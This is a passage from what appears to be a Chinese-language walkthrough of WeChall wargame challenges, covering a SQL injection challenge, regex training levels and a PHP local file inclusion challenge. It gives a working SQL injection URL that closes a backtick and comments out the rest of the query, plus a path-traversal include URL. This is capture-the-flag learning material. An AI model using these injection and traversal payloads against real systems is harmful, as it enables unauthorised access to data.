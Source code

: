 ```php
        noesc_stop100();
}
```

关键语句

```php
$query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
```
是一道简单的sql注入题
闭合`号，加#或者—+注释，注意，#需要URL编码（%23）
最终构造的url为

```
http://www.wechall.net/challenge/no_escape/index.php?vote_for=bill`=111--+
```



## Training: Regex

### Level 1

匹配一个空字符串，学习匹配匹配字符串开头结尾的两个符号：`/^$/`

### Level 2

匹配"wechall"，`/^wechall$/`

### Level 3

匹配以wechall或wechall4位文件名，并以.jpg/.gif/.tiff/.bmp/.png为后缀的文件名，`/^wechall4?\\.(?:jpg|gif|tiff|bmp|png)$/`

### Level 4

捕获文件名，`/^(wechall4?)\\.(?:jpg|gif|tiff|bmp|png)$/`



## Training: PHP LFI

这是一道php文件包含漏洞的题，<a href='https://en.wikipedia.org/wiki/File_inclusion_vulnerability'>LFI vulnerability</a>

```php
1 $filename = 'pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome").'.html';
2 include $filename;
```

题目已经给出了关键信息，而参数file也没有任何过滤

直接访问http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../solution.php

报错信息如下：

```
PHP Warning(2): include(pages/../solution.php.html): failed to open stream: No such file or directory in www/challenge/training/php/lfi/up/index.php(54) : eval()'d code line 1
```
